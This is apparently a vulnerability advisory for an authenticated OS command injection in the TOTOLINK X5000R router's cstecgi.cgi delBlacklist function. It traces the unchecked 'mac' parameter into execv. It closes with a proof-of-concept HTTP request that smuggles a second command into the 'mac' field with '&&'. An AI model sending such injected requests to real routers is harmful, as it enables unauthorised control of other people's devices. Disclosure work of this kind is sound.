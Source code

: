 # totolink X5000r
## Firmware version
totolink X5000r devices through v9.1.0cu.2350_b20230313
## description
In totolink X5000r v9.1.0cu.2350_b20230313, the file /cgi-bin/cstecgi.cgi contains a OS command injection vulnerability in `delBlacklist`. Authenicated Attackers can send malicious packet to execute arbitary commands.
## detail
In function `delBlacklist`(at 0x4125FC) of binary /cgi-bin/cstecgi.cgi. The parameter `mac` is passed to `uci_del_List` without any check.
![delBlacklist](image.png)
uci_del_List passes the parameter `mac` as the fourth argument, which is in libcscommon.so.It can be observed that uci_del_List calls snprintf to format our param_4 into the string "uci -c %s del_list %s.%s.%s=\"%s\ ..." and passes the string to the CsteSystem function,which will eventually be called by execv.
![uci_set_str](image-1.png)
![uci_set_str2](image-2.png)

## POC
```txt
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.1.1
Content-Length: 167
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.1
Referer: http://192.168.1.1/basic/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"topicurl": "delBlacklist", "mac": "a&&wzqaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaawzqwaaaaaaaaaaaaaaaaaaaaawzqwaaaaaaaa"}
```